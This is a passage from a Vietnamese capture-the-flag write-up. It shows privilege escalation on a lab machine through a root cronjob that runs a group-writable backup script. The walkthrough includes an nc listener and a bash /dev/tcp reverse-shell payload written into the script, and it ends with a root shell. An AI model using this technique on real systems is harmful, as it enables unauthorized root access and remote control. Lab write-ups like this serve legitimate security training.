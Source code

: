 Đi đến thư mục này 

```python
gyles@TEAM:/home/gyles$ ls /opt/admin_stuff/
script.sh
gyles@TEAM:/home/gyles$ cat /opt/admin_stuff/script.sh 
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
gyles@TEAM:/home/gyles$ 
```

Kiểm tra qua 2 file *dev_backup.sh* và *main_backup.sh*, tôi để ý thấy file *main_backup.sh* có thể chỉnh sửa được với user *gyles* vì cùng nằm trong group *admin* 

```python
gyles@TEAM:/home/gyles$ ls -la /usr/local/sbin/dev_backup.sh
-rwxr-xr-x 1 root root 64 Jan 17  2021 /usr/local/sbin/dev_backup.sh
gyles@TEAM:/home/gyles$ ls -la /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh
gyles@TEAM:/home/gyles$ 
```

Tạo listener với port 2402: `nc -lnvp 2402`

Thêm payload vào file *main_backup.sh*

```python
gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh 
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.18.3.74/2402 0>&1
```

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402
listening on [any] 2402 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.27.48] 48290
bash: cannot set terminal process group (1968): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~# id
id
uid=0(root) gid=0(root) groups=0(root),1004(admin)
root@TEAM:~# ls /root
ls /root
root.txt
root@TEAM:~# 
```
